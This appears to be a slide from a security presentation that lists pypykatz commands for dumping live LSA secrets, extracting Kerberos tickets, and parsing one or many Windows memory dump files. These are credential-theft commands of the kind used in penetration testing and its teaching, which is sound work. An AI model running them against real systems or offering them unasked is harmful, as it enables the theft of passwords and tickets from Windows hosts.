

Pypykatz examples
Dump Live LSA secrets
>>pypykatz live lsa

Store Kerberos Tickets
>>pypykatz.py -k <output_dir> minidump <dumpfile>
minidump command is used to parse .dmp files and has several options

Reads a single minidump file
pypykatz.py minidump <minidump file>
Reads all .dmp files in a given folder
pypykatz.py minidump <folder_with_dumpfiles> -d
Recursively looks through a folder for a .dmp files
pypykatz.py minidump <folder_with_folder_of_dumpfiles> -d -r